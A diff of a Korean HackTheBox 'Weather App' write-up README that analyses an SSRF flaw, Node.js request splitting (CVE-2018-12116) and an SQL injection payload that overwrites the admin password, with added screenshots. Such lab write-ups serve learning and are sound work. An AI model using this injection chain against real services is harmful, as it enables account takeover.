

Before and after one commit to JaedongSeo/HackTheBox, a Markdown page: Weather_App/README.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Weather_App/README.md
+++ b/Weather_App/README.md
@@ -66,6 +72,7 @@ if (admin) return res.send(fs.readFileSync('/app/flag').toString());
 ## 🧠 SSRF 취약점 분석
 
 ### 📁 helpers/WeatherHelper.js
+![WeatherHelper](img/WeatherHelper.png)
 
 ```js
 let apiKey = '10a62430af617a949055a46fa6dec32f';
@@ -77,9 +84,12 @@ let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?
 ---
 
 ## ⚙️ Node.js SSRF + HTTP Request Splitting
+![packagejson](img/packagejson.png)
 
 - Node.js v8.12.0 (구버전)
 - [CVE-2018-12116](https://nvd.nist.gov/vuln/detail/CVE-2018-12116) - Unicode를 이용한 Request Splitting
+![CVE](img/CVE.png)
+![cve-2018](img/cve-2018.png)
 
 ### 🧪 페이로드 예시
 
@@ -92,10 +102,10 @@ HOST: 127.0.0.1
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 126
 
-username=admin&password=asd') ON CONFLICT (username) DO UPDATE SET password='vardy'--
+username=admin&password=asd') ON CONFLICT (username) DO UPDATE SET password='1234'--
 ```
 
-→ `admin` 사용자의 비밀번호를 **vardy**로 변경
+→ `admin` 사용자의 비밀번호를 **1234**로 변경
 
 ---
 
````
Also changed, not shown: other parts of Weather_App/README.md (+8 -0 lines).
